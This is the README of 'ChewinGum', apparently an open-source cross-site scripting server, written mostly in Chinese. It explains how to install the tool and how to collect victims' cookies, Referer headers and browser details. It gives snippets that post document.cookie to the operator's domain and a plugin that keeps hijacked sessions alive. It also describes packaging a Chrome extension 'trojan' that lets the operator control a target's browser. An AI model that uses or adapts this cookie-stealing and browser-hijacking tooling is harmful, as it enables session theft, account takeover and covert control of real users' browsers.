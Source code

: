 # ChewinGum [alpha][0.2034][1140504]

Name
----
***ChewinGum - individual XSS Server***

Startup
-------
    python ./config.py install [ salt filekeyPath | -h ]
    python ./chewingum.py [ host port debug | -h ]

Dependencies
------------
* [Bottle-0.12](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket/)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
* (get_info.js) - [BeEF](http://beefproject.com/)
* (wec_cssbug.html) - [CSS3事件的消息回调BUG](http://www.web-tinker.com/article/20339.html)
* (get_networkip.js) - [Network IP Address via ipcalf.com](http://net.ipcalf.com/)

Helptext
--------

**1.Login**

采用filekey验证, 上传filekey或输入URL便可登录.

**2.Server**

server处代码会直接在项目触发时执行,  
最终会将变量serverinfo和变量browserinfo保存至数据库,  
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64encode(str(request.headers.get('Referer'))),
    	'ctime':b64encode(str(ctime()))
	}
	browserinfo = {
    	'cookie':b64encode(str(request.forms.get('cookie')))
	}

**3.Server code keyword**

ifstatus  
对变量ifstatus赋值, 会触发对应status.  
如:

	ifstatus = 404

returns  
对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.  
如:

	returns = '<script>alert(1)</script>'

gum.backinfo  
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。  
当返回之后最好清空它。

    gum.backinfo = {};

**4.Project name and Object name**

project 的项目名需是xss触发处的url或是domain.  
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

	object 的项目名可随意更改.

**5.Plugins**

可以这样导入server扩展,

	with open('./static/serv/get_info.py') as files: exec files.read()

也可以这样

    from static.serv.email_remind import send_mail
    send_mail(gum_emailremind)

>    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/brows/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

**6.Set code**

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server  
也可以这样

    browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

多次接收browser info可以像这样,

    info_cookie = str(request.forms.get('cookie'))
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = b64encode(sessionid.get(referer))

>	不推荐使用多次接收，默认已关闭。

**7.Easy example**

使用基本探针:

server:

    with open('./static/serv/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/brows/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

**8.Console**

javascript文件在

    ./static/brows/onexsshell.js

>    尚在测试阶段。

**9.Browser trojan**

chrome  
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口  
使用chrome or chromium打包  
安装在目标的浏览器后，使用console即可操作目标浏览器。  

>    尚在测试阶段

**10.Plugins header specification**

    Author[Reference] - Date
        Name - Dependencies
                - Synopsis
            Example
                and
            Dependencies Plus

>   好吧我知道不会有人帮我写插件的...
